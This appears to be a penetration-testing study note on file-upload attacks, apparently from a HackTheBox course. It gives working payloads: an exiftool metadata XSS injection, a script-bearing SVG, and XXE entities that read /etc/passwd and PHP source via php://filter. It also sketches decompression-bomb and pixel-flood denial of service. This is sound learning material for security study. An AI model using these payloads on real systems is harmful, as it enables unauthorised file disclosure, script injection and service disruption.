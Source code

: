 ## XSS
**HTML
1. JavaScript code: target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines
2. Web applications that display an image's metadata after its upload: can use a comment to make a comment in the metadata
```shell-session
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
```
- if we change the image's MIME-Type to text/html, it will be executed even if the web app does no display the metadata

**SVG
Scalable Vector Graphics are XML-based images
```xml (HTB.svg)
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE
Leak contents of /etc/passwd:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

We can read the source files of the web app as a result to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
- Find more vulnerablities
- Locate the upload directory
- Identify allowed extensions
- Find the file naming scheme

XML data can be used in SVG, PDF, Word Documents, PowerPoint Documents

We can also perform SSRF with XXE to enumerate the internally availbale services or even call private APIs to perform private actions

## DoS
- Use XXE to DoS as discussed in Web Attacks
- Decompression Bomb: ZIP files within ZIP files (possible if web app automatically unzips archives)
- Pixel Flood: create JPG, modify its compression data to say it has a size of (0xffff x 0xffff) which is allocate all of its memory
- Upload large file
- Upload files to a different directory (possible if upload is vulnerable to directory traversal)
